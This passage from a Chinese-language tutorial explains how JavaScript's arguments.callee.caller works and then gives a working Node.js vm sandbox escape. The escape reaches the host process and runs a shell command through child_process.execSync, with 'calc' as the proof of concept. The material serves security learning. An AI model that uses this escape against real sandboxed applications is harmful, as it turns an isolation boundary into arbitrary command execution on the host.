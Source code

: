 >   因为`this`是`context`的引用，虽然已经获取不到其他的东西了，但是还是可以通过`arguments.callee.caller`来进行绕过

>   这里的`arguments.callee.caller`是什么东西?
>
>   先来讲下关于`arguments`，这个的话是一个`Object`对象，但是也不是数组，可以通过以下代码定义一个函数在调用查看`arguments`的内容，**它存储了每个调用函数中的相关参数**

```js
function test(){console.log(arguments)}
test()
// 结果太长了就不放了
```

>   `arguments.callee`是`arguments`对象的一个成员，它的值为"正被执行的`Function`对象"

```js
function test(){console.log(arguments.callee)}
test()
// 结果为
ƒ test(){console.log(arguments.callee)}
```

>   `arguments.callee.caller`调用当前函数的外层函数，如果是单函数无嵌套的话就是`null`

```js
function test1(){return arguments.callee.caller}
console.log(test1())	// 结果为null
function test2(){
    function test3(){
        return arguments.callee.caller
    }
    return test3()
}
console.log(test2())

// 结果为：
ƒ test2(){
    function test3(){
        return arguments.callee.caller
    }
    return test3()
}
```

>   **然后再看看它的绕过代码**
>
>   **下面的代码，console.log的时候，此时的对象触发是在外部作用域中，**
>
>   **arguments.callee.caller是在外部，所以可以通过该对象来获取对应的process**

```nginx
# arguments.callee.caller绕过
const vm = require('vm');

# 通过vm.runInContext创建了一个test()函数并对其调用，并设置context为null
const res = vm.runInContext(`
    function test(){
        const a = {}
        a.toString = function () {
            const cc = arguments.callee.caller;
            const p = (cc.constructor.constructor('return process'))();
            return p.mainModule.require('child_process').execSync('calc').toString()
        }
        return a
    }
	test();`,
vm.createContext(Object.create(null)));
console.log(""+res)

```